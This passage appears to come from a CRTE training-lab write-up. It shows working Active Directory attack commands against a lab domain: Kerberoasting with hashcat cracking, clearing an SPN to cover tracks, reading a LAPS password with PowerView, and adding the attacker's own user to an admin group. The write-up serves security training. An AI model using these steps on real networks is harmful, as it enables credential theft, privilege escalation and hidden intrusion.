 ```powershell
[*] PwdLastSet             : 12/27/2022 2:56:43 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*Support57user$us.techcorp.local$CIFS/US-WRKST1.US.TECHCORP.LOCAL@us.techcorp.local*$B85...
```
- We will now attempt to crack the TGS and retrieve the target user's plaintext password.
```zsh
┌──(root🔱KaliVM)-[/home/pri3st/Desktop/Training/CRTE]
└─# hashcat -O -a 0 -m 13100 targeted_kerberoast.tgs 10k-worst-pass.txt

<snip>

$krb5tgs$23$*Support57user$us.techcorp.local$CIFS/US-WRKST1.US.TECHCORP.LOCAL@us.techcorp.local*$b857d31d8a0bf...:Desk@123

<snip>
```
- We now have a valid set of credentials, **Support57User:Desk@123**.
- We will now clear the SPN attribute from the target account to cover our tracks and revert the account in its previous state.
```powershell
PS C:\Auditor> $User | Select serviceprincipalname

serviceprincipalname
--------------------
CIFS/US-WRKST1.US.TECHCORP.LOCAL


PS C:\Auditor> Set-DomainObject -Identity Support57User -Clear serviceprincipalname
```
- Let's make sure that we have successfully cleared the SPN from the target user.
```powershell
PS C:\Auditor> Get-DomainUser Support57User | Select serviceprincipalname

serviceprincipalname
--------------------
```
### 4.2.2 Abusing the `ReadLAPSPassword` permission on `US-MAILMGMT`.
- We can easily read the LAPS password using **PowerView**.
```powershell
PS C:\Auditor> Get-DomainComputer "US-MAILMGMT" -Properties 'cn','ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'

ms-mcs-admpwd  ms-mcs-admpwdexpirationtime cn
-------------  --------------------------- --
]T&+4]6/h4TaIB          133477776162639191 US-MAILMGMT
```
### 4.2.3 Abusing the `AddMember` permission on `MachineAdmins` Domain Group due to Nested Group Membership.
- We can add ourselves to the `MachineAdmins` domain group using **PowerView**.
```powershell
PS C:\Auditor> Add-DomainGroupMember -Identity 'MachineAdmins' -Members us\studentuser57
```
- We can confirm our membership in the target domain group.
```powershell
PS C:\Auditor> Get-DomainGroupMember -Identity MachineAdmins


GroupDomain             : us.techcorp.local
GroupName               : machineadmins
GroupDistinguishedName  : CN=MachineAdmins,OU=Mgmt,DC=us,DC=techcorp,DC=local
MemberDomain            : us.techcorp.local
MemberName              : studentuser57
```